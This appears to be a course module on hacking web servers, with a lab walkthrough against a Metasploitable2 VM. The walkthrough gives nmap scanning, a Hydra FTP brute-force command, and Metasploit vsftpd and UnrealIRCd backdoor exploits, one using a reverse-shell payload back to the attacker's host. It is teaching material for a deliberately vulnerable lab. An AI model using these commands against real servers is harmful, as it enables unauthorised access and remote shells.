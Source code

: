 

# Module 13

` `**Hacking Web Server**

A webserver is hardware or software that stores, process, and deliver web page via HTTP protocol. When a user request video or photo from a search engine actually he becomes the client and his browser generates HTTP request that is sent to the web server than web server collect the request from the data storage or application web server and respond the client request with appropriate HTTP response.

![Web Servers - Javatpoint](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.001.png)

**Component of web server** 

**Document root**

It is a directory of web server in which root file of directory are there and into them critical HTML file are stored related to the web page of domain name.

**Server root**

It is also a directory but it is top-level directory in which server configuration and error, executable and log file are stored.

**Virtual Document Tree**

It provide additional storage on different machine or disk after the original space become full.

**Virtual Hosting** 

It is a technique of hosting a multiple domain or website in same server . This technique allows the sharing of resource among various server.

**Web Proxy**

A proxy server is located between the web client and web server. This is used to prevent from IP blocking and maintaining anonymity. 

**IIS Web Server Architecture** 

Internet Information Service is a web server application which is flexible for hosting anything on the web like HTTP, HTTP secure (HTTPS), FTP(file transfer protocol), FTPS (FTP secure), SMTP (simple mail transfer protocol).

It also has several component like http listener and service like WWW Publishing Service.

**Common Goal Behind web server hacking** 

Stealing credential detail or sensitive information.

Compromising the Database

Escalating privilege

Obtaining Source code of application 



**Foot printing the webserver**

We had  seen most tool of foot printing in beginning module like 

Whois lookup 

DNS lookup 

http recon 

nmap etc

Lets see foot printing of webserver with nmap 

First we need a webserver 

Download metasploitable2 machine 

Source :- <https://www.vulnhub.com/entry/metasploitable-2,29/>

Install it on VMware

Launch it, default credential is 

username = “msfadmin” 

password = “msfadmin”

Run ifconfig we get IP, search this IP we get webpage with different module

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.002.png)

Lets run nmap

Command :- nmap -sV [IP]

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.003.png)

We can see all services running on metasploitable2 machine. 

First let check user and password of ftp server by bruteforce attack with the help of HYDRA

Command:- hydra -L (user\_list) -P (pass\_list) [IP] [service]

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

This is ftp valid user 

On port 21 ftp service are enable for webservice, lets exploit it 

Open msfconsole 

And search  ftp with its version.

Command :- Search vsftpd 2.3.4

We can use auxiliary/scanner/ftp/ftp\_login ß to enumerate the user

But let’s do exploit 

- Use exploit/unix/ftp/vsftpd\_234\_backdoor

Set rhosts [192.168.40.134]



![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.005.png)

Run this exploit

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.006.png)

We can see here we got shell

Lets run ifconfig command in this shell

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.007.png)

We can see IP of metasploitable2 machine 

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

This is telnet user

We can login through telnet

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

Lets exploit port 6667 

6667/tcp open  irc    UnrealIRCd

Search UnrealIRCd

Use exploit/unix/irc/unreal\_ircd\_3281\_backdoor

Set rhosts

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.008.png) 


Set payload cmd/unix/reverse

Set lhost (kali ip)

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

Run the exploit <┙

We got the shell now we can run the command but let’s check IP by ifconfig

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.009.png)

We can see the server IP which is metasploitable2 machine IP.

Md Asad Ansari

Security analyst

asad@craw.in

